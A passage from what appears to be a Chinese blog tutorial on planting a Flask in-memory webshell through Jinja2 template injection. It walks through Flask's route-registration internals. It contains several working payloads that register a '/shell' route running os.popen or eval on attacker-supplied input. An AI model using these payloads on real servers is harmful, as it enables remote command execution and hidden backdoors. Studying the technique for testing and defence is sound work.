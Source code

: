 可以看到这个函数只是判断了下`_got_first_request`的值，那么既然现在能够访问到应用上下文，在`add_url_rule`前修改他的值就可以了，先看一下这个上下文里有没有这个变量。
```python
{{ url_for.__globals__['current_app'].__dict__ }}
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717749715204-3327a746-625d-4506-83a9-f11213564df7.png#averageHue=%23eceff3&clientId=u15af632c-5e6d-4&from=paste&height=436&id=ua4e1dade&originHeight=545&originWidth=1876&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=142824&status=done&style=none&taskId=u39a14b17-cd0e-4d85-aa0d-1d7fe58ad6f&title=&width=1500.8)
Ok，直接修改前面的 Payload 即可
```python
{{ url_for.__globals__['__builtins__']['exec'](
"
app._got_first_request=False;
app.add_url_rule('/shell', 'shell', lambda: '<pre>{0}</pre>'.format(__import__('os').popen(request.args.get('cmd')).read())
);
app._got_first_request=True;
", 
{'request':url_for.__globals__['request'], 'app':url_for.__globals__['current_app']})}}
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717749802374-0e113771-6d29-4594-ab34-fc3dfd2b87e4.png#averageHue=%23eef1f4&clientId=u15af632c-5e6d-4&from=paste&height=348&id=u1c290925&originHeight=435&originWidth=1871&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=68586&status=done&style=none&taskId=ua0716d3b-d4b6-4b5d-a3c4-c02eac2f842&title=&width=1496.8)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717749877393-3a45f38c-e259-49c1-b351-d34fe7363482.png#averageHue=%23cfa26b&clientId=u15af632c-5e6d-4&from=paste&height=272&id=ud83a7ace&originHeight=340&originWidth=691&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=64161&status=done&style=none&taskId=udd94021a-7534-4022-9bd0-e85d2f380f7&title=&width=552.8)
### 补充：请求方式和执行结果
在使用这个函数注入内存马后要修改内存马的话，需要获取到原来的匿名函数然后修改。因为再后续修改的话 flask 中有一个判断视图函数和旧的端点对应函数是不是一个，不是的话会抛出异常，函数是`flask.sansio.app.App.add_url_rule`，并且也不止这一种方法，这个函数只是简化了流程，实际上可以直接去操作：`werkzeug.routing.map.Map`和`werkzeug.routing.rules.Rule`这个类以及视图函数结构。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718125824133-145266e1-7139-43cd-954f-ed1e86d5362a.png#averageHue=%231f2024&clientId=uc11acaa6-eb2c-4&from=paste&height=205&id=u183ae064&originHeight=256&originWidth=1152&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=39269&status=done&style=none&taskId=u81feb570-6a3c-48a0-a93f-8d1e1e1df31&title=&width=921.6)
指定请求方式和接收参数修改，如果使用`exec`执行代码是没有返回值的，可以使用`eval`，但是`eval`执行不了多行代码。解决这个其实还好，可以多次执行`eval`，也可以在`exec`执行的时候将结果保存到全局变量中，`eval`再去获取。请求方式`add_url_rule`函数是支持的。
```python
{{ url_for.__globals__['__builtins__']['exec'](
"
app._got_first_request=False;
app.add_url_rule('/shell', 'shell', lambda: eval(request.values['cmd']);, methods=['POST','GET']);
app._got_first_request=True;
", 
{'request':url_for.__globals__['request'], 'app':url_for.__globals__['current_app']})}}
```
```python
{{ url_for.__globals__['__builtins__']['exec'](
"
my_func = lambda: eval(request.values['cmd']);
app.view_functions['shell'] = my_func;
app._got_first_request=False;
app.add_url_rule('/shell', 'shell', my_func, methods=['POST','GET']);
app._got_first_request=True;
", 
{'request':url_for.__globals__['request'], 'app':url_for.__globals__['current_app']})}}
```

现在需要修改路由的请求方式，其他的语言的webshell实现的时候基本上都是通过上传文件实现，请求的方式是可控的，就像上面那样定义路由的时候定义了请求的方式。那么如果我们需要在已有的路由上进行内存马注入，并且修改请求方式应该怎么做呢？先看一下路由注册的实现流程。如下有一个`/nonono`路由，没有指定请求方式的时候默认是`GET`（还有框架添加的`HEAD``OPTIONS`），使用`POST`请求的时候显示不允许。
```python
@app.route('/nonono')
def my_view():
    return "Hello, nonono!"
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718129456793-cef6439b-0265-47fd-986f-4ef042fd4852.png#averageHue=%2376b6d9&clientId=uc11acaa6-eb2c-4&from=paste&height=184&id=u3e24f35f&originHeight=230&originWidth=1494&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=34865&status=done&style=none&taskId=u87050a96-9b7e-4909-b6da-58af7ed1768&title=&width=1195.2)
这里先跳过了一下默认注册的路由比如`/``/static`，`@app.route`装饰器函数使用了`@setupmethod -- flask.setupmethod`装饰器来校验Flask实例是否开启了debug模式并且获取第一个请求，这里无关紧要，随后调用了`self.add_url_rule(rule, endpoint, f, **options)`这里的调用并不是下面的那个函数`flask.sansio.scaffold.Scaffold.add_url_rule`，而是`flask.sansio.app.App.add_url_rule()`
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718129650900-080e9820-12e3-42db-81d0-2f174a3a174e.png#averageHue=%23202228&clientId=uc11acaa6-eb2c-4&from=paste&height=223&id=udb26ec01&originHeight=279&originWidth=1204&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=41429&status=done&style=none&taskId=u70a8f330-1cec-4132-9bc3-43d45ecc372&title=&width=963.2)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718130094711-f5f37419-9468-4ca0-958b-3dc51a8c6f3a.png#averageHue=%23262b35&clientId=uc11acaa6-eb2c-4&from=paste&height=275&id=u117e6737&originHeight=344&originWidth=1132&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=47754&status=done&style=none&taskId=u3eca7bb8-6c4e-401a-b8f8-456c08a40f9&title=&width=905.6)